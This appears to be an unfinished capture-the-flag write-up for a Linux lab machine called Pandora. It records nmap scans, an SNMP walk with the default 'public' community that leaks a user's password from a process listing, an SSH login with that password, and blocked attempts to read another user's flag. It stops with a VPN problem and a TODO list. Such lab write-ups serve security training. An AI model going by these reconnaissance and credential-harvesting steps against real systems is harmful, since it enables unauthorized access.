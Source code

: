 ## Pandora

### Linux - Easy - 10.129.231.134

#### Enumeration

#### nmap
  
TCP port scan:  

nmap -sC -sV -T4 10.129.231.134 >> nmap-pandora.txt

```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

UDP port scan:   

nmap -sU 10.129.231.134 >> nmap-pandora.txt 

```
PORT    STATE         SERVICE
68/udp  open|filtered dhcpc
161/udp open          snmp
```

#### Website

Browser: http://10.129.231.134
- nothing loads

Curl: 
```
 curl -v http://10.129.231.134   
*   Trying 10.129.231.134:80...
* Connected to 10.129.231.134 (10.129.231.134) port 80
* using HTTP/1.x
> GET / HTTP/1.1
> Host: 10.129.231.134
> User-Agent: curl/8.13.0
> Accept: */*
```
#### SNMP

snmpwalk -v 1 -c public 10.129.231.134 >> snmp-walk.txt

```
iso.3.6.1.2.1.1.4.0 = STRING: "Daniel"
iso.3.6.1.2.1.1.5.0 = STRING: "pandora"
iso.3.6.1.2.1.1.6.0 = STRING: "Mississippi"

iso.3.6.1.2.1.25.4.2.1.5.1114 = STRING: "-u daniel -p HotelBabylon23"
```


#### SSH

Attempt connection/login   
```
ssh daniel@10.129.231.134 
```


```
daniel@pandora:~$ ls -al
total 28
drwxr-xr-x 4 daniel daniel 4096 May 19 14:13 .
drwxr-xr-x 4 root   root   4096 Dec  7  2021 ..
lrwxrwxrwx 1 daniel daniel    9 Jun 11  2021 .bash_history -> /dev/null
-rw-r--r-- 1 daniel daniel  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 daniel daniel 3771 Feb 25  2020 .bashrc
drwx------ 2 daniel daniel 4096 May 19 14:13 .cache
-rw-r--r-- 1 daniel daniel  807 Feb 25  2020 .profile
drwx------ 2 daniel daniel 4096 Dec  7  2021 .ssh
```

NOTE: nothing useful in Daniels home directory

##### Lateral Movement
```
daniel@pandora:~$ cd ..
daniel@pandora:/home$ ls
daniel  matt
daniel@pandora:/home$ cd matt
daniel@pandora:/home/matt$ ls
user.txt
```
Flag disovered in "matts" home directory - inaccessible by daniel

```
daniel@pandora:/home/matt$ more user.txt
more: cannot open user.txt: Permission denied
```

Directory access:   
```
daniel@pandora:/$ cd root
-bash: cd: root: Permission denied

daniel@pandora:/var/log$ cat auth.log
cat: auth.log: Permission denied

```

Encountered VPN issues, unable to continue.


TODO:
[ x] access whatever is hosted at port 80
[ ] probe port 22 (SSH)
[ x] port 161 UDP (snmp) 
